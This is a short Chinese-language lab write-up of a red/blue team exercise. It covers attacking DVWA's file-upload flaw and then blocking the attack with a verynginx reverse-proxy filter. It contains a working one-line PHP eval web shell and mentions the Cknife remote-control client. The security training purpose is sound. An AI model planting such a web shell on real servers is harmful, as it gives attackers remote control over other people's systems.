

# 支线任务    

## 环境  
* kali-2017.1.64bits  

## 搭建一个具备文件上传功能且存在漏洞的网站供红方完成攻击和远控任务   
* 蓝方：
	1. 搭建dvwa，security设为low  
* 红方：
	1. Cknife在php7下需要修改Config.ini相关配置 [参考链接](https://github.com/Chora10/Cknife/issues/33)  
	2. 使用php的eval()函数实现一句话木马
		
			<?php @eval($_POST['apple']);?>  
	3. 在File upload中上传含有上述木马的文件  

	  
	  

## 在不修改网站源代码的前提下，仅通过外围安全加固的方式检测并阻止红方的远程攻击  
1. 使用docker容器技术在网关搭建verynginx实现反向代理 [参考链接](https://github.com/camilb/docker-verynginx)  
2. 配置verynginx规则  
	* 访问网关10.0.2.15/dvwa可以反向代理至内网搭建的一个webserver，即dvwa  
	* 配置filter对路径为/hackable/uploads/实现拦截  

